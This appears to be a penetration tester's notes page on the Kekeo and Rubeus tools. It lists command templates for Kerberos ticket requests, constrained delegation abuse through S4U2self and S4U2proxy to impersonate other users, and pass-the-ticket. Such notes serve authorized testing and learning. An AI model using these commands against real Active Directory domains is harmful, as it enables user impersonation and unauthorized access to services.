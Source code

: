 # kekeo/rubeus

### Resources

1. **Rubeus**

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u" %}

2. **Kekeo**

{% embed url="https://github.com/gentilkiwi/kekeo" %}

3. **S4U2self and S4U2proxy**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13" %}

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a" %}



For each of the following sections, I aim to provide the equivalent commands in **Kekeo** and **Rubeus** (some of the sections may only have examples in one tool).

### 1. Request for Ticket Granting Ticket (TGT)

```powershell
kekeo # tgt::ask /user:<user> /domain:<domain> /password:<password>
C:\> rubeus.exe /user:<user> /password:<password>
```

* For rubeus, if `/password` is used instead of a hash, `/enctype:X` will default to RC4 for the exchange, with `des|aes128|aes256` as options

### 2. Request for Ticket Granting Service (TGS)

```powershell
C:\> rubeus.exe asktgs /ticket:<ticket> /service:<servicename>
```

### 3. Constrained delegation abuse: Service for User (S4U)

```
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:<servicename>
```

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u" %}

From the Rubeus S4U documentation page link above, we can find a few examples:

#### a. S4U2self

{% code overflow="wrap" %}
```powershell
C:\> rubeus.exe s4u /user:<username> /rc4:<rc4_hash> /impersonateuser:<user_to_impersonate>
```
{% endcode %}

* `/rc4`: rc4 hash of the user associated with `/user`
  * The TGT  for an account with a _**msds-allowedtodelegateto**_ permission can be used instead (`/ticket:X`)
* `/impersonateuser` : compulsory parameter to specify the user we plan to obtain a service ticket on behalf for

From this command, we will obtain the following:

1. A TGT for the user specified in `/user`&#x20;
2. A TGS for the user specified in `/impersonateuser`&#x20;

* Using the [**S4U2self** ](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13)extension: the service account can use the TGS obtained to authenticate to itself (or more specifically, the service it is running) on behalf of the user specified in `/impersonateuser`&#x20;

#### b. S4U2proxy

{% code overflow="wrap" %}
```powershell
C:\> rubeus.exe s4u /ticket:<TGT> /msdsspn:<SPN> /tgs:<TGS>
```
{% endcode %}

* `/ticket` : TGT obtained from the previous step
* `/mdsspn` : Service Principal Name (SPN)
  * This value must be listed under the `msds-allowedtodelegateto` property for the service account (supplied to the `/user` field in the previous step)
* `/tgs` : The forwardable ticket retrieved from the previous step (S4U2self ticket for the user specified in `/impersonateuser`_)_

From this command, we will obtain the following:

1. A TGS (for the user specified in `/impersonateuser`) that can be used to authenticate to the service defined in `/mdsspn`.&#x20;

Next, we can use the TGS we have obtained to authenticate to the service (defined in `/mdsspn`) as our desired user:

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#ptt" %}

```powershell
C:\> rubeus.exe ptt /ticket:TGS
```

or by supplying the `/ptt` flag to the s4u command.



{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94" %}





